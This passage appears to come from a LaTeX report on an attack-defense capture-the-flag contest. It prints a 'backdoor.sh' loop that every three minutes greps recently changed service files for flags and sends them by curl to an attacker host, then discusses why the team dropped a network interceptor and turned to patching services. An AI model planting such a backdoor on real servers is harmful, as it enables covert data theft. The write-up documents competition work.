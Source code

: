 \documentclass[12pt]{report}
\begin{document}
\noindent As mentioned, the malicious \texttt{backdoor.sh} works only if assumptions \textbf{(1)} or \textbf{(2)} apply. The program, placed on the victim server, was designed with the knowledge that we've acquired exploring our own server and operates by periodically (every 3 minutes) executing the code 

\begin{lstlisting}
for SVC in $(find /opt/ctf/ -name rw -type d);
do
    FLAGS=$(find $SVC -type f -cmin -3 -exec grep -o `FLG[[:alnum:]]{13}
    	   {} \; | paste -sd `/')
    curl  "$HOST:$PORT/$FLAGS"
    sleep 3m
done
\end{lstlisting}

\noindent
which constructs a list of flags from the most recently created files found within existing \texttt{/opt/ctf/*/rw} directories. The reason why we read a set of files as opposed to simply storing the most recently touched file was due to some unexplained behaviors by the game server. What had occurred previously was that for an unknown reason, multiple files of a single service would be updated, and because of this behavior, there was no known solution that we had that could pinpoint the correct file to use. Instead we opted to go towards a brute force method described previously. After obtaining the set of the most recently updated files within the past three minutes, the script uses curl to make an HTTP GET request with all the flags in the URI path, each separated by '/'. Once sent, the packet is ideally processed by the server script.

\noindent Our initial approach to defensive automation was focused from the network standpoint. We had originally planned to design a tool that would lie between the services and the network, similar to a firewall. We had planned to use this tool to intercept inputs and payloads before forwarding them into the application, monitor traffic and report those that were suspicious. However after several discussions and more research on the game server, it was decided this was infeasible for several reasons. First and foremost had to do with the way the network was set up, namely, NAT was enabled. This made it extremely difficult to differentiate the source and destination of requests and responses. Another obstacle we encountered were potential race conditions that we would need to win every single time. While true that we could theoretically sniff the network, sanitizing inputs would be difficult in this manner as we must not only run a program to sanitize the input, we also have to construct the "cleaned" payload and then forward that to the service before the original payload reaches it. Examples of such difficulties made us switch directions regarding defense, in particular focus on patching the services themselves. \\
\end{document}
